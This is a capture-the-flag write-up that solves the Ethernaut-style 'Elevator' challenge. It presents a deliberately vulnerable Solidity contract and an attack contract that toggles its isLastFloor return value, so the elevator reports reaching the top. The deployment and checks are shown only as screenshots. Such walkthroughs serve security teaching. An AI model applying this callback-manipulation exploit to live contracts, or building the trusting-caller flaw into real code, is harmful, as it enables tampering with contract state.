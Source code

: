 # Task

This elevator won't let you reach the top of your building. Right?

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```
This Solidity contract simulates an elevator system with two main components: `Building` and `Elevator`. The `Elevator` contract has a `goTo` function that takes a floor number and interacts with a `Building` contract (the caller). It first checks if the floor is the last floor using the `isLastFloor` function from the `Building` contract. If it's not the last floor, it updates the current floor and checks again to determine if the elevator is at the top floor. The `top` variable reflects whether the elevator has reached the top floor.

Lets get the contract address and contract abi

![image](https://github.com/user-attachments/assets/516d6c35-6444-48f6-aaa2-42618867c170)

We'll start out by using cast to check the state of the elevator

![image](https://github.com/user-attachments/assets/fb8e9fdf-ab41-4ed3-ad3e-f26a50dcd251)

We get the "false" response, this means we aren't at the top of the building yet

Lets check the floor we are at

![image](https://github.com/user-attachments/assets/111dcded-99a1-4041-bc06-9c533ab567f9)

We are at floor "0".

To solve this chall we have to be on the last floor. Lets write our attack contract

```sol
//SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./elevator.sol";

contract elevatorAttack {
   bool public toggle = true;
   Elevator public target;

   constructor(address _targetAddr) public {
    target = Elevator(_targetAddr);
   }
   
   function isLastFloor(uint) public returns (bool) {
        toggle = !toggle;
        return toggle;
   }

    function setTop(uint _floor) public {
        target.goTo(_floor);
    }
}
```
what does this attack contract do??

1. It imports the Elevator contract and sets it as the target during construction (constructor).
2. The isLastFloor function alternates (toggles) between returning true and false on each call.
3. By alternating the isLastFloor return value, the goTo function in the Elevator contract can be tricked into thinking it hasn’t reached the top floor, even when it has, due to the changing return value.
4. The setTop function is used to call the goTo function in the Elevator contract, exploiting this behavior to bypass the condition and manipulate the elevator's top status.


Lets deploy this attack contract with forge

![image](https://github.com/user-attachments/assets/65925b13-aaa0-44a1-bbfa-82150462beb8)

Now that we've successfully deployed this, lets interact with the functions

We'll start by setting the top to say "floor 20" 

![image](https://github.com/user-attachments/assets/61aa3195-57ba-409d-a65b-90c9475a6a52)

Nicee, our transaction got successful

Now, lets check the floor again

![image](https://github.com/user-attachments/assets/c5b0cedd-c783-4f62-b0e3-91427dd2b15e)

Good, we can now go ahead to check if we are at the top of the elevator or not

![image](https://github.com/user-attachments/assets/e116090a-dc35-45a4-8e9f-904159927b57)

We got the "true" output, which means we have successfully reached the top of the building

You can go ahead to submit the instance

![image](https://github.com/user-attachments/assets/54e745ce-906d-488e-8902-2e78cc499218)







































